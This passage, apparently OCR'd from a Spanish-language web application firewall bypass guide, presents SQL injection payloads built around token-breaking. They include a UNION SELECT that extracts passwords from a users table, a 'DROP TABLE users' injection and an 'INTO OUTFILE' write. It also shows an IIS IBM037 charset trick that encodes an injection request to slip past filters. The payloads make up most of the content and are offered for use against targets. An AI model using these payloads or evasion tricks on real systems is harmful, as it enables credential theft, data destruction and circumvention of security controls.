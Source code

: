 Los ataques a tokens intentan romper la lógica de dividir una solicitud en tokens con disyuntores de tokens. Los token-breakers son símbolos que permiten afectar la correspondencia entre un elemento de una cadena y un determinado token. Nuestra solicitud debe seguir siendo válida mientras utilizamos rompedores de tokens.

Estudio de caso: token desconocido para el "tokenizador"

**Nuestra carga útil:**

> ?id=‘-sqlite_version() UNION SELECT passwords FROM users --

Estudio de caso: contexto desconocido para el analizador (observe el corchete sin contexto)

**Primera carga útil:**

> ?id=12);DROP TABLE users --

**Segunda carga útil:**

> ?id=133) INTO OUTFILE ‘xxx’ --

### 15. Técnica de ofuscación en otros formatos.

Muchas aplicaciones web admiten diferentes tipos de codificación y pueden interpretar la codificación. Siempre necesitamos ofuscar la carga útil a un formato que no sea compatible con WAF, pero el servidor puede pasar de contrabando nuestra carga útil.

Caso IIS:

IIS 6, 7.5, 8 y 10 permiten interpretaciones de caracteres IBM037. Envíe los parámetros codificados con la consulta.

**Solicitud original:**

> POST /example.aspx?id7=sometext HTTP/1.1
> 
> 
> HOST: target.org
> 
> Content-Type: application/x-www-form-urlencoded; charset=utf-8
> 
> Content-Length: 27
> 
> id2='union all select * from users--

**Solicitud ofuscada con codificación de URL:**

> POST /example.aspx?%89%84%F7=%A2%95%94%86%A3%88%89%95%87 HTTP/1.1
> 
> 
> HOST: target.org
> 
> Content-Type: application/x-www-form-urlencoded; charset=ibm037
> 
> Content-Length: 127
> 
> %89%84%F2=%7D%A4%95%89%97%95%40%81%93%94%40%A2%85%93%85%84%A3%40%5C%40%86%99%97%94%40%A4%A2%85%99%A2%60%60

